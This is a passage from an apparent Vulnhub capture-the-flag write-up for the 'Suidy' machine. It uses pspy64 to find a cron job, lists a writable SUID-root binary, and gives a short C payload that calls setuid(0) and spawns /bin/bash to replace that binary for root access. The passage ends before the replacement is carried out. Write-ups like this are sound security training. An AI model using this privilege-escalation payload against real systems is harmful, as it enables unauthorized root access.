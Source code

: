 Now I checked the behavior of this user with `pspy64` tool and this script is running as cron within few minutes →

![Untitled](/Vulnhub-Files/img/Suidy/Untitled%207.png)

Now I knew by looking at suidy directory that this file `suidyyyyy` is set SUIDs through that cron command →

```bash
theuser@suidy:/home/suidy$ ls -al
total 56
drwxr-xr-x 3 suidy suidy    4096 oct  7 12:16 .
drwxr-xr-x 4 root  root     4096 sep 26  2020 ..
-rw-r--r-- 1 suidy theuser    20 oct  7 12:16 bash
-rw------- 1 suidy suidy      12 sep 27  2020 .bash_history
-rw-r--r-- 1 suidy suidy     220 sep 26  2020 .bash_logout
-rw-r--r-- 1 suidy suidy    3526 sep 26  2020 .bashrc
drwxr-xr-x 3 suidy suidy    4096 sep 26  2020 .local
-r--r----- 1 suidy suidy     197 sep 26  2020 note.txt
-rw-r--r-- 1 suidy suidy     807 sep 26  2020 .profile
-rwsrwsr-x 1 root  theuser 16704 sep 26  2020 suidyyyyy
theuser@suidy:/home/suidy$
```
{: .nolineno}
{: .nolineno}

Now I have the write permission so lets replace it with out own executable file like this →

I created a bash executable simple file in c language named as `payload.c` file →

```c
//gcc payload.c -o payload
#include <stdio.h>
#include <unistd.h>

int main(){
    setuid(0);
	setgid(0);
    system("/bin/bash");
    return 0;
}
```
{: .nolineno}
{: .nolineno}
